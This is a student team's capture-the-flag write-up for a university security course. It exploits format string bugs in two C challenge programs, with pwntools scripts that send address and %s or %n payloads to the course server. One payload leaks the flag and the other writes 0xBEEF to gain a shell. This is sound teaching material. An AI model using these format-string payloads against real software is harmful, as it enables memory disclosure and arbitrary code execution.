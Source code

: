 # **CTF Challenges for Week 7**

# Challenge 1

In this challenge, by analyzing the source code within main.c, we can see that a format string attack may be possible to execute, due to the usage of an unsafe __printf__ function (line 27).

```c
scanf("%32s", &buffer); 
printf("You gave me this: ");  
printf(buffer);  
```

The next thing we did was to analyze the compiled program using __checksec__, in order to identify the security measures in place.

![picture 1](images/a7cc4ad2a6b2579a5510438a767745ced6af1624c2fcf686d4f89fedbf2257d5.png)  

As a canary was found and NX is enabled, a buffer overflow attack is out of question. However, we can see that there is no PIE (which randomizes adresses of the executable). As a consequence of this, we can determine addresses in the memory of the application that will be useful to get to the flag.

By analyzing the code, we can also see that there is a function __load_flag__, which is called in the beggining of main, that opens the file where the flag is contained and retrieves it.

```c
void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}
```

That way, we can use gdb with the commands __b load_flag__ and __p &flag__ to see the address, which will not change as PIE is not activated.

![picture 2](images/5d19dfed9fdaf26494bd44cba86e6bd75303f6ca297f06627d688e178fb6bf34.png)  

With the address we have obtained, all that is left to do is read it by taking advantage of the format string vulerability. We do this by writing __\x60\xc0\x04\x08%s__, using the provided exploit_example.py file.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

As we run it, we are presented with the flag for this challenge.

![picture 3](images/f2bd647bbd7430e6981c0f2df99ce219c11981a63574a696eed43de72bbfff9d.png)  
  

# Challenge 2

This challenge is similar to the first one, since there is also a format string vulnerability on line 14 that can be exploited. However, we don't have a function that retrieves the flag content. This time, by analyzing the code, we discover that if we are able to assign the value 0xBEEF to the key variable, the conditional statement will be executed, opening a shell where we can give commands to open the flag file.

```c
scanf("%32s", &buffer);
printf("You gave me this:");
printf(buffer);

//...

if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
}
```

By running __checksec__ we see that the protections in place are the same as in the first challenge.

![picture 4](images/acd72cf16b16c626e80da4543077b60cb10553b3608fb06f54d3eb3d14cc6f91.png)  

Like on challenge 1, we run the program with gdb to find the address of the variable key, using __p &key__.

![picture 5](images/7c5fd2e9bcdca289bfc01fc2950659f880f6bd47ee8a281251ca58f96016ede3.png)  

At first glance, we may think that exploiting the vulnerability is as easy as in the first challenge. However, that is not the case.
What we have to do is put the address where the key is located in our string, and write 0xBEEF using __%n__ (which instead of printing something loads the variable pointed by the argument with a value equal to the number of characters that have been printed by it before). Converted to decimal base, 0xBEEF corresponds to 48879: this means we must inject a large number of chars in our payload, along with %n and the address of the key varaiable.  
However, the __scanf__ call in the code only accepts 32 bytes, so we will need to use a workaround.
We found that, by using the following code, we can introduce in the printf output the number of chars desired, without suprassing the 32 char limit. This way, we can effectively assign the value 0xBEEF to the key variable. Since the value of an address is 4 bytes, the number of chars to introduce will be 48879-4 = 48875.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

#p.recvuntil(b"got:")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x" + b"%1$n") 
p.interactive()
#"\x34\xc0\x04\x08%48875x%1$n"
```

By changing the port of the server and the line to write in the exploit_example.py of the first challenge, we can run it and it will give us control of the shell, from where we are able to access the flag.txt file.

![picture 6](images/878937a2b682c3c0ca8e691e8ce0210291c3b39d4a79777ddbbbf6293fbcf6db.png)  


<br>

# Group 7, 08/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt
